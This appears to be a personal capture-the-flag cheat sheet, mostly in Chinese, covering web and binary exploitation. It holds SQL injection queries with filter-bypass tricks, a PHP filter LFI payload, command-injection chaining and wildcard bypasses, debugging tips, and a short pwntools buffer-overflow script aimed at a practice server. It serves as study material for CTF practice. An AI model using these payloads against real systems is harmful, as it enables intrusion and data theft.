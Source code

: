 # CTF note
## WEB

### SQL injection

select database()

group_concat(table_name) from information_schema.tables where table_schema=‘database()’
再看某個資料庫的table (單引號要提換成實際database name)

group_concat(column_name) from information_schema.columns where table_name='wargame2key'-- -

or (尾端單引號內容可換成hex 然後不需要單引號 , 不行的話試試看單引號不要拿掉)

group_concat(table_name)/*1*/frofromm/*1*/information_schema.tables/*1*/where/*1*/table_schema=0x74657374#

---

已知欄位數量 database()名稱

(`limit`參數為開始欄位id,顯示數量)

查看表個名:
(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='置換成db名稱' limit 0,1)

查看欄位名:
(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='置換成表格名稱' limit 1,1)

取得欄位內容:
(select flag from flag limit 1,1)

### LFI

> ?page=`php://filter/read=convert.base64-encode/resource=path`

### command injection

**串接指令** : `反引號` , `&&` , `|` , `;`

**讀取檔案** : `cat` , `head` , `tail` , `sort` , `more`

**檔名被過濾** : 萬用字元繞過 (ex:flag.txt --> `cat fla*`)

## PWN

查看GOT : `readelf -a <filename>`

x86 64位元 calling convention

a(1,2,3,4,5,6,7,8,9)

```
136   4004f5:   6a 09                   push   0x9
137   4004f7:   6a 08                   push   0x8
138   4004f9:   6a 07                   push   0x7
139   4004fb:   41 b9 06 00 00 00       mov    r9d,0x6
140   400501:   41 b8 05 00 00 00       mov    r8d,0x5
141   400507:   b9 04 00 00 00          mov    ecx,0x4
142   40050c:   ba 03 00 00 00          mov    edx,0x3
143   400511:   be 02 00 00 00          mov    esi,0x2
144   400516:   bf 01 00 00 00          mov    edi,0x1
```


### asm intel

參數存入rigister順序 `printf(rdi,rsi,rdx,rcx,r8,r9)`

[ref](http://abcdxyzk.github.io/blog/2012/11/23/assembly-args/)

### reverse

- objump -d -M intel filename

### pwnalbe

- 32bit frame

  - gcc -m32

- protect
  
  - gcc -fno-stack-protector file.c(關閉canary)

- gdb調用技巧

  - disas main

  - info func
 
  - x $ebp+8

- pwntools
 
  - OFFSET  

    - cyclib(50)
 
    - cyclib_find('aa') 

`pwntools 基本用法`
```python
from pwn import *
context(log_level = 'debug')
playload = 'A'*52 + p32(0xcafebabe)
r = remote('pwnable.kr',9000)
#r.recvuntil('overflow me :')
r.send(playload)
r.interactive()
```
w
